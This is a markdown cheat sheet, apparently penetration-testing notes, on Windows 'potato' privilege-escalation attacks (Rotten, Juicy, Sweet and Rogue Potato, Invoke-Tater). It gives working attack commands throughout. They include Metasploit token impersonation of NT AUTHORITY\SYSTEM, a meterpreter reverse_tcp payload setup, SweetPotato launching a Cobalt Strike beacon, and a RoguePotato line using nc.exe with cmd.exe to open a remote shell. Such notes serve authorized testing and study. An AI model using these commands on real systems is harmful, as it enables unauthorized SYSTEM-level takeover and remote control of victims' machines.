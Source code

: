 # Windows Potato Attacks

Rotten potato and juicy potato were fixed in Windows 10 1809+ and Windows Server 2019. 



## Rotten Potato

https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/

- Trick the “NT AUTHORITY\SYSTEM” account into authenticating via NTLM to a TCP endpoint we control.
- Man-in-the-middle this authentication attempt (NTLM relay) to locally negotiate a security token for the “NT AUTHORITY\SYSTEM” account. This is done through a series of Windows API calls.
- Impersonate the token we have just negotiated. This can only be done if the attackers current account has the privilege to impersonate security tokens. This is usually true of most service accounts and not true of most user-level accounts.

### Metasploit

```
upload the exploit

execute -cH -f <exploit>
use incognito
list tokens -u
impersonate_token "NT Authority\System"
```



## Juicy Potato

https://github.com/ohpe/juicy-potato

- Rather than BITS, this uses COM servers that
  - are instantiable by the current user
  - implement the IMarshal interface
  - Run as an elevated user 
- Account needs to have SeAssignPrimaryTokenPrivilige or SEImpersonatePrivilege 
- CLSID lists - https://ohpe.it/juicy-potato/CLSID/

```
juicypotato.exe -l 1337 -p c:\windows\system32\cmd.exe -t * -c {CLSID} 
```

### Metasploit

https://www.rapid7.com/db/modules/exploit/windows/local/ms16_075_reflection_juicy

- If you already have a meterpreter session :

```
use exploit/windows/local/ms16_075_reflection
set LHOST
set LPORT (different port to other session)

set payload windows/x64/meterpreter/reverse_tcp
```

- New meterpreter session will be returned. 

```
load incognito
list_tokens -u
impersonate_token "NT Authority\System"
```

## Sweet Potato

- currently works on windows 7 up to latest versions of windows 10 and server 2019
- compatible with execute-assembly from cobalt strike 
- needs to be compiled for target OS
- works when executed from a process with impersonate privileges 
- WinRM needs to be disabled
  - default on win 10 but not win srv 2019

https://github.com/CCob/SweetPotato



```
execute-assenbky sweetpotato.exe -p beacon.exe
```

## Rogue Potato

https://decoder.cloud/2020/05/11/no-more-juicypotato-old-story-welcome-roguepotato/



- You need a compromised account on the victim with Impersonate privileges
- remote machine must be accessible on port 135 by the victim
- https://github.com/antonioCoco/RoguePotato

```
RoguePotato.exe -r <ip> -e nc.exe <ip> <port> -e cmd.exe -l 9999
```

- -r remote ip
- -e command line of the program to launch
- -l listening port
- -c CLSID
- -p pipename_placeholder
- -z randomize the pipenmae_placeholder 

## Empire

https://github.com/EmpireProject/Empire/blob/master/data/module_source/privesc/Invoke-Tater.ps1



Empire has an Invoke-Tater method

```
Invoke-Tater -Trigger 1 -Command "..."
```

